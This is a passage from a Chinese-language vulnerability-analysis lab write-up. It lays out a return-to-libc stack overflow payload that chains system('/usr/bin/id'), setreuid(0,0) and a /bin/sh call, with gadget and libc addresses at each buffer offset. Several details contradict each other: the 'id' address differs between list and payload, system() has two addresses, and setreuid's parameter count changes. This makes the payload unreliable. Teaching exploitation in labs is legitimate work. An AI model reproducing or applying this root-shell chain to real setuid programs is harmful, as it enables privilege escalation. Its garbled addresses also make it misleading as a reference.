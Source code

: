 得到各变量地址：

> /usr/bin/id: bffffe12
> id: bffffceb
> /bin/sh: bfffff66
> sh: bffffe7c

##### 载体位置

寻找pop-ret，由于有三个参数，需要找到能承载三个的地方

![image-20220301195856295](漏洞分析练习题/image-20220301195856295.png)

pop-pop-pop-ret：0x80485cd
pop-pop-ret：0x80485ce
pop-ret:0x80485cf

#### 发起攻击——构建输入

编写输入程序：rtlatt.c

> buffer数组首地址与变量i相差97个字节。故自buf[97]开始，并赋值i = 0x23456789
>
> buf[113]改成 system()函数的地址：0xb7e5f430
>
> buf[117]改成 pop-ret 的地址：0x80485cf（因为 system()只有一个参数， 所以只需要一个 pop 将栈指针抬一次） 
>
> buf[121]改成存放 system()的参数“/usr/bin/id”的环境变量的地址：0xbffffe12
>
> buf[125]改成 setreuid()的地址：0xb7f07870 
>
> buf[129]改成 pop-pop-ret 的地址：0x80485ce（因为 setreuid()有两个参数，所以需要两个 pop 将栈指针抬两次） 
>
> buf[133]和 buf[137]都改成 setreuid()的参数 0 的地址：0x00000000 
>
> buf[141]改成 system()函数的地址：0xb7e5f430
>
> buf[145]改成 pop-ret 的地址：0x80485cf
>
> buf[149]改成存放 system()的参数“id”的环境变量的地址：0xbffffe8a 
>
> buf[153]改成 system()函数的地址：0xb7ed85f0
>
> buf[157]改成 pop-pop-pop-ret 的地址：0x80485cd（因为 setreuid()有三个参数，所以需要三个 pop 将栈指针抬三次） 
>
> buf[161]改成存放 system()的参数“/bin/sh”的环境变量的地址：0xbfffff66
>
> buf[165]改成存放 system()的参数“sh”的环境变量的地址：0xbffffe7c
>
> buf[169]改成存放 system()的参数“NULL”的环境变量的地址：0x00000000
